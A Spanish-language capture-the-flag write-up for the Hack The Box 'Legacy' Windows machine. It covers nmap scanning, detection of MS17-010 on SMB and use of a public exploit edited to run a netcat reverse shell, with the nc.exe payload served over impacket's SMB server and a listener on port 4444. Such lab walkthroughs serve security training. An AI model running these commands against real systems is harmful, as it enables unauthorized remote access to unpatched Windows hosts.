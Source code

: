 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/legacy.jpg)

## Windows - Easy
IP = 10.10.10.4

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -vvv -oG allPorts 10.10.10.4
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/allPorts.jpg)

    nmap -p139,445 -sV -sC -vv -Pn -oN targeted 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/targeted.jpg)

Realizamos un escaneo de las vulnerabilidades del servicio smb

    nmap -p 445 --script "vuln and safe" -Pn -oN servicioScan 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/smbScan.jpg)

Nos muestra que el servicio es vulnerable al MS17-010


Nos descargamos el exploit de: 
https://github.com/worawit/MS17-010

Ejecutamos el checker.py para comprobar syi los named pipes responden

    python2 checker.py 10.10.10.4

Comprobamos que el spoolss y el browser son vulnerables.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/checker.jpg)


Ahora vamos a explotar la vulnerabilidad con el zzz_exploit.py pero antes tenemos que editar para que nos ejecute nuestra reverse shell.
1.- buscamos en nuestro equipo con locate nc.exe y nos lo copiamos a la ruta que vamos a compartir

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/locate.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/cp.jpg)

2.- editamos el exploit para indicarle como va a ser nuestra reverse shell.

Comentamos las lineas que ya no queremos que se ejecuten (flecha de arriba) e incluimos nuestra ejecucion (flecha de abajo)

     service_exec(conn, r'cmd /c \\10.10.14.2\smb\nc.exe -e cmd.exe 10.10.14.2 4444')

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/exploit.jpg)

3.- Ejecutamos el exploit
Para ejecutar el exploit tenemos que hacer varias cosas.
   1.- Compartimos una ruta de la cual vamos a coger el nc.exe con impacket y le indicamos que soporte smb2
                                
      impacket-smbserver smb $(pwd) -smb2support
      
   2.- Ponemos el puerto configuracido para la reverse shell a la escucha en nuestra maquina 
    
      nc -lvp 4444

   3.- Ejecutamos el zzz_exploit.py
   
    python2 zzz_exploit.py 10.10.10.4 spoolss

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/accesLegacy.jpg)
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/acceso.jpg)
    
Accedemos a la carpeta del usuario y en el escritorio encontramos la flag  

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/user.jpg)
      
### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/legacy/root.jpg)
